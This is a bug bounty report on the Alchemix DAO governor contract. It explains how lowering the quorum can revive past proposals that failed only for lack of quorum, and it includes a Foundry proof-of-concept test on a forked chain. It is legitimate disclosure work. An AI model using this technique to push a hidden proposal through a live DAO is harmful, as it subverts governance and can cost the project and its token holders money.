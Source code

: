 
# Past defeated proposals may become executable if the quorum requirement is lowered

Submitted on Apr 30th 2024 at 18:46:43 UTC by @mt030d for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30556

Report type: Smart Contract

Report severity: Low

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, which is based on an outdated version of OpenZeppelin's `GovernorVotesQuorumFraction` contract that has a known vulnerability.

This vulnerability allows past proposals to become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

## Vulnerability Details
The `AlchemixGovernor` contract inherits the `L2GovernorVotesQuorumFraction` contract, a modified version of OpenZeppelin's `GovernorVotesQuorumFraction` contract at version v4.5.0. However, this version has a [known vulnerability](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75), patched in v4.7.2.

As a result, the `AlchemixGovernor` contract is affected by the same vulnerability: when a proposal is passed to lower the quorum requirement, past proposals may become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

Please see the PoC for a concrete scenario of this vulnerability.

## Impact Details
An under-quorum proposal should be unable to execute after the vote period. 

However, when a proposal is passed to lower the quorum requirement, past proposals become executable if they were defeated only due to a lack of quorum, and the number of votes they received meets the new quorum requirement.

A malicious user could propose a malicious proposal and vote for it. Since it's below the quorum, it may go unnoticed by the DAO. Later, they can propose a proposal to lower the quorum for other valid reasons. If the proposal is executed, their hidden malicious proposal may become executable, potentially causing monetary and reputational harm to the project.

## References
- [AlchemixGovernor contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/AlchemixGovernor.sol#L16)
- [L2GovernorVotesQuorumFraction contract](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol)
- [The issue for OpenZeppelin's GovernorVotesQuorumFraction](https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75) 



## Proof of Concept

```solidity
// ./test/PoC.t.sol
// SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/test/BaseTest.sol";

contract PoC is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);

        // Create veALCX for admin
        createVeAlcx(admin, TOKEN_100K, MAXTIME, false);

        // Create veALCX for 0xbeef
        createVeAlcx(beef, TOKEN_1 * 10_000, MAXTIME, false);

        // Can't propose and vote in the same block as a veALCX is created
        hevm.warp(block.timestamp + 1);
    }

    function test_PastDefeatedProposalCanPassAfterQuorumDecrease() public {
        assertFalse(voter.isWhitelisted(usdc));

        // craft a proposal to make voter whitelist usdc
        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay
        hevm.stopPrank();

        // vote
        hevm.startPrank(beef);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.stopPrank();

        uint256 votingPower = veALCX.getVotes(beef);
        uint256 quorum = governor.quorum(block.timestamp);
        assertGt(quorum, votingPower, "quorum should be greater than voting power");

        // execute - fail due to lack of quorum
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        // assume the DAO decides to decrease the QuorumNumerator
        updateQuorumNumerator(50);

        // As a result, a a past defeated proposal due to lack of quorum now meets the new quorum requirement
        votingPower = veALCX.getVotes(beef);
        quorum = governor.quorum(block.timestamp);
        assertLt(quorum, votingPower, "quorum should be less than voting power");


        // now the past defeated proposal can be executed
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);
        assertTrue(voter.isWhitelisted(usdc));
    }

    function craftTestProposal()
        internal
        view
        returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function updateQuorumNumerator(uint256 newQuorumNumerator) internal {

        address[] memory targets = new address[](1);
        targets[0] = address(governor);
        uint256[] memory values = new uint256[](1);
        values[0] = 0;
        bytes[] memory calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(governor.updateQuorumNumerator.selector, newQuorumNumerator);
        string memory description = "Update QuorumNumerator";

        hevm.startPrank(admin);
        uint256 pid = governor.propose(targets, values, calldatas, description, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // delay

        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay

        governor.execute(targets, values, calldatas, keccak256(bytes(description)), MAINNET);
        hevm.stopPrank();
    }
}
```
This PoC inherits the [BaseTest](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/test/BaseTest.sol )  contract for its `setupContracts()` and `createVeAlcx()` functionalities.

The `test_PastDefeatedProposalCanPassAfterQuorumDecrease()` test case demonstrates the following scenario:
1. An admin proposes a proposal to whitelist USDC in the Voter contract.
2. The user (beef) votes in favor of this proposal.
3.	After the voting period, the proposal cannot be executed since the quorum is not reached.
4.	However, if the DAO later decides to decrease the quorum requirement, the previously defeated proposal can now pass and be executed.

Run the PoC using the following command:
```
forge test --mt test_PastDefeatedProposalCanPassAfterQuorumDecrease --fork-url $URL --fork-block-number=17133822
``` 
This should pass the test case.
